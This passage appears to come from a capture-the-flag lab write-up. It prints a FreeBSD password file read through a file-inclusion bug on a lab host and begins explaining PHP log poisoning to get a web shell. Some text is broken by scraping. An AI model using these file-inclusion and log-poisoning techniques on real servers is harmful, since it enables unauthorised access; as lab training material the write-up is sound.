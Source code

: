     # $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
    #
    root:*:0:0:Charlie &:/root:/bin/csh
    toor:*:0:0:Bourne-again Superuser:/root:
    daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
    operator:*:2:5:System &:/:/usr/sbin/nologin
    bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
    tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
    kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
    games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
    news:*:8:8:News Subsystem:/:/usr/sbin/nologin
    man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
    sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
    smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
    mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
    bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
    unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
    proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
    _pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
    _dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
    uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
    pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
    auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
    www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
    _ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
    hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
    nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
    _tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
    messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
    avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
    cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
    charix:*:1001:1001:charix:/home/charix:/bin/csh
    

With a user name charix here, we could go directly to shell. But that’s no fun, so let’s keep attacking this web app.

### Web Shell Via Log Poisoning

The phpinfo (which is easy to get from http://10.10.10.84/browse.php?file=phpinfo.php) does show that is off, which eliminates direct RFI. `allow_url_include`![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fpoison_phpinfo-zoom.png)

Log poisoning is a open route, and a good one to pursue, given the box’s name.

#### Theory

The idea behind log poisoning is to put some php into the logs, and then load them where php will be executed. If we look at the access log, we see that on each visit to the site, there’s an entry written with the url visited and the user-agent string of the browser visiting.

